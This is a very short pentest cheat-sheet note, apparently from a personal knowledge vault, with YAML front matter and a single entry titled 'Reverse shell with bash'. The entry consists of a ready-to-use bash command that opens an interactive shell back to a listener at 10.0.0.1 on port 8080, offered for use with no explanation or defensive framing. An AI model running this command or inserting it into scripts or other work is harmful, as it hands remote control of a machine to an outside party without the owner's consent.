```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

### Reverse shell with bash
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

[[´Shells]]

